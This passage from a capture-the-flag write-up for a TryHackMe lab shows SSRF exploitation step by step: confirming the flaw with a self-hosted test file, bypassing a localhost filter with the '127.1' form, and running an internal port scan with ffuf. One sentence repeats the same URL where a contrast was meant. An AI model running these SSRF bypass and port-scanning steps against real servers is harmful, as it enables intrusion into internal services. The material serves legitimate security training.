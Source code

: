Curl signal that it is about to display a binary file. This tells us that the image was fetched. We can now try to check if this server can display images/files from external links. To check this we will create a fake file and host it on a simple PHP server.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ echo 'This is an SSRF test file' > test.txt                                  

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ php -S 0.0.0.0:80
[Sun Sep 29 09:38:47 2024] PHP 8.2.21 Development Server (http://0.0.0.0:80) started
```

Now, we passed our IP address and the name of the file we created to the www parameter.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/The London Bridge/Scans/Web]
└─$ curl http://10.10.162.211:8080/view_image -X POST -d "www=http://10.8.23.19/test.txt"
This is an SSRF test file  
```

## Exploitation

Our file was imported by the server and displayed to us. We can conclude that this server is vulnerable to SSRF. Before launching our PORT scanning attack we can notice that if we try to access port 8080 using the local IP address ```127.0.0.1``` we will receive a forbidden message and this goes with any port we try to access.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ curl http://10.10.162.211:8080/view_image -X POST -d "www=http://127.0.0.1:8080" 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don&#x27;t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```

This could be due to some sort of URL format filtering put in place by the web developer. We can reference this [list](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) for ways to bypass these filters.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ curl http://10.10.162.211:8080/view_image -X POST -d "www=http://127.1:8080"     
<!DOCTYPE html>                    
<html lang="en">          
<head>                         
    <meta charset="UTF-8">  
<SNIP>
</html>
```

We see that the response looks normal when the format ```http://127.1:8080``` is used instead of ```http://127.1:8080```. We can now use the same URL format to perform our internal port scan. We first need to create a wordlist with all available ports and only after we will start the fuzzing attack.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ seq 0 65535 >  port-list.txt 

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ ffuf -ic -c -u http://10.10.162.211:8080/view_image -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "www=http://127.1:FUZZ"  -w port-list.txt -fs 290 
<SNIP>
0                       [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 307ms]
80                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 307ms]
8080                    [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 153ms]
:: Progress: [65536/65536] :: Job [1/1] :: 259 req/sec :: Duration: [0:04:18] :: Errors: 0 ::
```
